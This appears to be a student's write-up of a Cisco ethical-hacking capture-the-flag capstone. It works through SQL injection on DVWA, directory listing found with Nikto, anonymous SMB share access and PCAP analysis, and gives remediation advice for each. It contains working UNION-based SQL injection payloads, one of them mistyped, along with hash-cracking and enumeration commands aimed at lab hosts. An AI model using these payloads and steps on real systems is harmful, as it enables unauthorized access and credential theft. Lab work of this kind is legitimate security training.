


# Final Cisco Ethical Hacker Capstone Project 

The objective of this Final Capstone Activity is to conduct a full penetration test beginning with reconnaissance, followed by exploitation of identified vulnerabilities, and concluding with remediation recommendations. This assessment is structured as a **cybersecurity capture-the-flag (CTF)** exercise, requiring the discovery of files containing flag values. The engagement simulates a real-world ethical hacking scenario in which discovered vulnerabilities are exploited in a controlled environment to achieve defined objectives

---

## Background / Scenario

I was contracted to perform a penetration test for a client organization. Upon completion of the engagement, the client requested a comprehensive report outlining identified vulnerabilities, successful exploit paths, and recommended mitigation strategies to secure affected systems. The scope of the assessment includes hosts within the **10.5.5.0/24** and **192.168.0.0/24** network ranges.

---

## Resources

- Kali Linux virtual machine (preconfigured for the Ethical Hacker course)
- Internet connectivity

---

## Tools Utilized

- Damn Vulnerable Web Application (DVWA)
- Wordlists
- SSH
- Nikto
- Web browser
- Nmap
- enum4linux
- smbclient
- Wireshark

---

## Challenge 1: SQL Injection

In this challenge, the objective was to identify user account data on a vulnerable server and recover the password for **Bob Smith’s** account. Once the credentials were obtained, they were used to access a file on **192.168.0.10** containing the Challenge 1 flag.

### Step 1: Initial Configuration

1. Open a web browser and navigate to the DVWA hosted at 10.5.5.12.
2. Authenticate using the default credentials:
   - Username: admin
   - Password: password
3. Set the DVWA security level to Low.



### Step 2: Extract User Credentials

SQL payloads used:
```sql
' OR 1=1 #
1' ORDER BY 1 #
1' OR 1=1 UNION SELECT 1, DATABASE() #
1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'dvwa' #
1' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users' #
1' UNION SELECT user, password FROM users #
```

To start of the exercise we have to navigate to the sql injection page of the DVWA which provides us a field into which we can start injecting our SQL. The first code we injected is shown below and it's function is to test whether the website is actually susceptible to SQL injection and as evidenced in the proceeding screen capture it can be concluded that the application is indeed susceptible.

```sql
' OR 1=1 #
```


Once it has been deermined that the application is susceptible  we then move on to investigating the maximum number of columns that the application has. To do this I used the order by command and as shown by the screen capture below, this application had two columns.

```sql
1' Order by 1 #
```


Once we have determined the number of columns we can then proceed to enumerating the name of the database which is essential if we desire toquery any useful information and to accomplish this I used the following command finding out that the database name was "dvwa" as shown below as well.

```sql
1' OR UNION SELECT 1, DATABASE() #
```


Now we have to find out what tables are found in the database.

```sql
1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'dvwa' #
```


Since we now the tables that we have available for exploitation, we can now select one and investigate what fields it has.

```sql
1' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users' #
```


The next thing to do was to retrieve the list of stored users.

```sql
1' UNION SELECT user, password FROM users #
```


And as you can see from the screenshot above, we have now successfully accessed the stored hashes which can now crack to find the passwords.


### Step 3: Password Cracking

- Hash type: MD5
- Tool used: Hashcat, Wordlists
- Password recovered: "password"

Once I discovered the password hash of Bob Smith's account i then proceeded to copy that hash into a text file. Once i had the text file i then used Hashcat alongside the "rockyou" wordlist to crack the hash and therefore reveal the password to be "password". 


### Step 4: Remote Access and Flag Retrieval

Now using the username and password that we got from our exploitation of the website we can now SSH into the host to access the files contained in the host as seen below. 


Flag file located: **my_passwords.txt**
Challenge 1 Flag: **8748wf8J**

#### SQL Injection Remediation ###

1. Use prepared statements and parameterized queries
2. Validate and sanitize all user input
3. Enforce least-privilege access for database accounts
4. Apply regular security patches and updates
5. Deploy a Web Application Firewall (WAF)


## Challenge 2: Web Server Vulnerabilities

In this next challenge the objective was to find the flag in one of the hidden directories of the website. So the first thing that I had to do was to run a nikto scan on the host to expose any directory indexing vulnerabilities it might contain.

```bash
nikto -h 10.5.5.12
```


Web Browser Accessible directories:
- /config/
- /docs/

Once the accessible directories had been identified I then crafted urls that permitted me to access the contents of said directories. 
```
http://10.5.5.12/config/?
```


Once in this directory I then begun to systematically examine all of it's contents to then discover that the second flag was contained in the html file **"db_form.html"**.


Flag file: **db_form.html**
Subdirectory holding the file: **/config/**
Challenge 2 Flag: **aWe-4975**

### Directory Listing Remediation ###
1. Disable directory indexing in the web server configuration
2. Place default index files (e.g., index.html) in all directories


## Challenge 3: SMB Enumeration
In this challenge the goal was to locate a flag hidden in one of the shares of a host on the 10.5.5.0/24 network.
My first step was to scan the network to see how many hosts were on it and also determine which of those hosts had smb ports open.

```nmap -sV 10.5.5.0/24```


Host Running SMB shares: **10.5.5.14**


From the above scan I discovered that 6 hosts were available on the network of which only the host 10.5.5.14 had smb ports open. Therefore using the enum4linux tool i then executed a scan of that host in order to expose various details pertaining to the host, including it's shares.

```enum4linux -a 10.5.5.14```




From the above snapshot you can see that the host contains 4 shares that a visible to attackers. Therefore, I then proceeded to test the acessibility of each of those shares using the smbclient tool.

```smbclient //10.5.5.14/[share]```


Whilst investigating the shares I discovered that the only share containing any files was the "print$" share. The share also demonstrated a critical security flaw as it had anonymous logins enabled which is how we were able to access these shares without any credentials. Once in the "print$" share I opened and investigated each and every directory in it in pursuit of the third flag.


My investigation of the directories in this share finally lead me to the "OTHER" directory which contained the "sxij42.txt" file. I proceeded to copy this file onto my local machine and once I opened it I discovered the third flag.


Flag file: **sxij42.txt**
Share Location: **print$**
Challenge 3 Flag: **NWs39691**

### SMB Remediation ###
1. Restrict SMB access using firewall rules and network segmentation
2. Disable anonymous SMB access and enforce authentication


## Challenge 4: PCAP Traffic Analysis

The objective of this challenge was to analyze a packet capture file to identify a target host, exposed directories, and retrieve the Challenge 4 flag.

Since the pcap file I would use use was already provided, the first step was to navigate to the file and use wireshark to open the file.

```wireshark SA.pcap```


From the pcap file I was able to identify the target machine as the host 10.5.5.11. From the file I was also able to intercept and view multiple webpages that were sent between the two machines.

```http://10.5.5.11/database-offline.php```


```http://10.5.5.11/test/?```
```http://10.5.5.11/test/testoutput/```


#### Other directories Encountered ####

- /styles/
- /webservices/rest/


Eventually I encountered the "/test" directory in which the "user_accounts.xml" file was contained.

```http://10.5.5.11/data/?```


And inside the "user_accounts.xml" I discovered the fourth and final flag of this Capture the Flag exercise amongst a number of other exposed user credentials as seen below.


#### Sensitive directory url identified: **http://10.5.5.11/data** ####
#### Challenge 4 Flag: **21z-1478K** #####

### Cleartext Data Remediation ###

1. Encrypt data in transit using HTTPS/TLS
2. Enforce strong authentication and access controls


## Conclusion

This Final Capstone Activity successfully demonstrated the complete ethical hacking lifecycle, beginning with reconnaissance and progressing through exploitation, validation, and remediation planning. Through a controlled capture-the-flag exercise, multiple real world vulnerabilities were identified and exploited across web applications, network services, and data transmission channels within the defined scope.

The assessment highlighted critical weaknesses including SQL injection vulnerabilities, insecure web server configurations allowing directory listing, misconfigured SMB shares permitting anonymous access, and the transmission of sensitive data in clear text. Each vulnerability was systematically exploited using industry standard tools and techniques, resulting in the successful retrieval of all challenge flags. These findings reinforce how seemingly minor misconfigurations or insecure coding practices can be chained together to achieve broader system compromise.

Equally important, this engagement emphasized the defensive perspective of ethical hacking. For every exploit identified, appropriate remediation strategies were proposed, focusing on secure coding practices, access control enforcement, service hardening, encryption of data in transit, and the application of least privilege principles. Addressing these issues would significantly reduce the organization’s attack surface and improve its overall security posture.

Overall, this capstone exercise strengthened practical skills in penetration testing methodology, vulnerability analysis, and risk mitigation while reinforcing ethical and professional standards. The knowledge gained through this assessment directly translates to real-world cybersecurity operations, where proactive testing and remediation are essential to protecting organizational assets against evolving threats.


